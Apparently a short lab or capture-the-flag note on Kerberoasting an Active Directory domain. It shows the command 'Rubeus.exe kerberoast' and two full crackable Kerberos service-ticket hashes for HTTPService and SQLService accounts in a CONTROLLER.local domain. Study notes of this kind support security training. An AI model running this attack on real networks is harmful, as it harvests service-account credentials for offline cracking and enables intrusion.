 Kerberoastign w/Rubeus -
```
Rubeus.exe kerberoast
```

$krb5tgs$23$*HTTPService$CONTROLLER.local$CONTROLLER-1/HTTPService.CONTROLLER.lo
cal:30222*$EB6AA46C670BED96A1899375F45C4B2F$805B34AE9930D2F5E39161F3EE1C334CBBFB
42E6CF961C485BF4F086629B26B47102730003B34A13DFD5D1F64268F48D9364D3FFB5CAB9BA4C46
36560DE777F280F05AADBD7474160F272561236DF8C2C669866642EA95C97A9E2B7F3E225C4F6491
00B1C62F2AC109A502A1CD3BF4C86C2F14523D3CCBC416E242E1B4026C3584DFADFAD8D0B00FEDB6
DDA378C8BE55D61C1A6B23369FD5D54826D7566C67C4F6DB54E06409873B2E7B4A23D3089A749B21
E0BD77915EC56E56E51E9561E2099CEB4D1947DDD5527D46FB563FC0BB6B29DCEA43E6D0826AE0F4
AEB5B2AE03807C050F3467C64D3D9ECB4CA2573D1AEB353FDB49544B176D129825FA7682AF0D911D
C75DB3D7B05CBEFF8F78A16D264FCD7EAD2A9D15E041FAFBC3B34D374FAFC60E6A16B86A0F759DE1
A071B0B058F737F94C13A166AD0FFAF9688CC53CE70B8A2E44BFE42B493346F64604C1E217BDCA26
6D482E239EC68E46040E9ED71594B6DEFC8C3B50954EF9BA5D89C22B00D4979D24A6DD667569EF02
6E1F9D6043EB94701DB6F3BEA167B82EB5F5663BFEB37BDFEB5276943509FECBB5E5CFF3C64B2194
C944FACEDB471B2764F9E2823DBF2DF1A24D02AF0CF478D8117458264BC0F222C9F97EE6CBB45A7C
E665A9E14B6C145EE273E447E86834E4B26EA76A358C8D03576F9C6364EBE566C28CAF4E36CE14EB
8E2EAB08A5805EC8079ABBD3087551CC843DCCB570B9C7EE87EE27F5A664FE95FA793992657DDE97
217416FB24F4F110D67391ADACED22DECA62E7053DB18E181754EC5C01F5F9D7B23FD973C5CEE028
4C033A6F50792F946B20EBE5AFB2D4E0629687CF4E7E8220D2AFD186EA6ED1821E4F6C0E62D416DE
3D680EDE72FFF702B2F22CED0D4681228BFC496A2D3D3F256FA0FC32E7B01D0F5A408A2C6EFC18CC
2739C8BD4437462F9EAD357AABC6EA9B694DAB1CD6A1E014D3897C3F36D41066F4ACA9C9F9DBC292
1AE11A1C725B410858F0EFF3AFCE8D19C90CC83C0A5B19562B1CD1A9C1728B4A21AC6584711A5804
B32A345EB6FFF89B94F24FBECA8F884521C96EAEBA0985A429C95830635C2C81FE12889093DA2D7E
61D4EA9FFA2A3C4FD13178BFC62E8830DF7FBBB623B1E2E2AD7917C6C98C915FAA08E54593516974
E7049961B717A28208508069F09175227B4E8B58A2A178DAFDB0F796B1906794BED705AC1126CF23
4D9AB120BA248961CE7A3F0EF8B819782FB87A9365CE14CC8ACE177C00D67D6821CD0AFD874D13F5
34C4E5CBAD9B2E4D135ECD4AC8A726DAD1F4653C927CC54FE5619325E67F75A7A79A29705FFB0E84
1506C594F0DA917D2887DCFF73AEA09ADB4D98347A4E259999AF3DF7E1A2B61095EA2604D089A751
EC653351AA6F998E6AF3B69DCE17002E88BA662FB2358A6456F0416723589B5816E5BDFCE4DE61C8
70959B0B387A0FDDB6573A2B534DCC056D00AF989EB3FD8A77DD36E65F0508EA1185D383050CD216
145F44517B08A3DA48C2F9CF78AC2C37FF6734E020BBD6F7F080B5D8154E031AAB4AB0B3944D5EF4
3089D532930D0DA363176F18BCE8352402BEA9A5400556684A77F256D3B44DA60F015CC96E35B066
AEF4F98903A8E5747459336FAC39E68AE7C8F948068FB55BE2DF7741048B

$krb5tgs$23$*SQLService$CONTROLLER.local$CONTROLLER-1/SQLService.CONTROLLER.loca
l:30111*$FD8B11800ECABD5CE1CB2755D974CA70$BF86D2336EA40DA74991CAEA43AB9367846B91
C617EF17C3CB5F88E1AC7C32ABC89444E9E823A35DBC35908D49D72354DD0D7A2A50B704BA9FCF21
FACAFFE64766032BB806CCA54C4C395A41ECD0DCFCAEF1A270BFA6C4A8079FC9E029CB04688EA5AE
59E28DAD045476BAE6DBC1B8306C890DDE51BFE10350777281CE454E62056556CE219302A44029AC
8D57758FD8B8D5FE3D8AB702BF8A375BF10BB36F2958397CFAD841F725A0FE8B44E81EDB97935785
E56360480104C932109A5A4CC2D22D4591F587A985BD27FC11F9E1104F8D8C9361A8149CDA01E9BF
ADB5D6A9FE3814E3882D1762118C4272CC5096318B87DB2CF43ADA4DF2A8F23227F02BCAAA988939
68122503E51E5ADB7EC660C649524ECC5D244F6E1AFDACE0EF87BDF1C91218655BDAA80BD75F3012
2EC42E92FF742406860C48137E7A592B4EF33EA8EA69ECF8240F8DCABF07B9BFCEF029D6783CDCC2
2C7261A635B93593D7C71F6891A46E4B1BE814DF5550D5C4E2EA55512D4FEC778EBB7C26E812E9D2
17574EE68756A1C96CAAE814AE487FBDCCF1EC35B4F3056BA7BB2E55E700F651D2D90A9EBBBD6458
623CD204E2843DF2715113EEA9457D6349F4F89DAE49DD2C39AA7546F1C6297222770FE0F86F9FFC
60AB4EA4AD74B3DC9DE1AF1B9576291A492FC880B36C2E3EE94FB5E1EF8FDAB405BE1668D627A819
4D80AF5E189F720A2D631B25669FAD03722468416B84462B40D461255C4A40F5F8EF4CFC7FEF3063
CD9C7C38E11FB840DBBB34DB5D382BAD357D97598194314FBAFBE748957BA20D44D41C6F1893081E
E0595622B2D8BA8FDC7B2A57A98EB4AED9FE1924167E2A8D768A253B9C1D1522EAC93A9203E46B39
73CA7695B6A727EBD18D97C9181D35FB66F08A99B06A90EAF4E750B6397E820DDA17FB5B53E3FE01
C8E97F020DA4CFDF2BF92F21C49B26F822787121BD46033C228CB22BFBDD830E62DED61574D1D285
A98C5ABE4B13E13C637995BC4D8B7E1EE976D5F32763735B87D592A3148B4A7D338BDB1F3AA7EEB0
CE2C527EA55AD929880A657A472DC8C6E1FEE37665DD85B49E28202848337B66C5D759A7C39561B7
88547307E958D14E4BF7980624F21E55774E6356BD6E828E3D8236197D9B0C01972F90C12F85E7E8
A75A7632B6040FF5A28EB54A8DE7ECAD65A3FB0C8826774CFEB5BA5F4B6ADE52FE9C02192BF8C47C
EC58F350E7E463B7FC277660BB4FDB28CAAEA2439891ABBC67BF33C4BE1CFFAF415EDBB267482A8C
6DA96D70E04FAFE7E63519C4C39CAB49E5452C89A280E20368777A930D6E849F23107D82F6C33731
99579D613F658B594FACEE4A8501AF19C01683E2789E8F637D0F6D2390DB5BF9EE59921493D340FD
77F9B6553B0FE88A0BF9A4C784C9589EF03EFD5BE1BBD19EFF80FC20ACF3679A8C85B2D859BE0A7C
2A1D7681DDD9DAB6A13A01B580FEB632D22776B25DB2AAA814ABAFD15CC894B6CB6E2A6C8F6985BE
782FE11976F7010DA9261CE9A32D864BC56AE3D1872A4150389BEF1772BE53CC5A8F9F24D989A445
D43FB09D23E537E28C977EC0F6157B9A4490DF35E4C535346993CB2B9C15C3097927DF3452679E67
DA860245D5D1F1F827A3C1F1F7737040F7394BF9A5B440B0B10B21099E


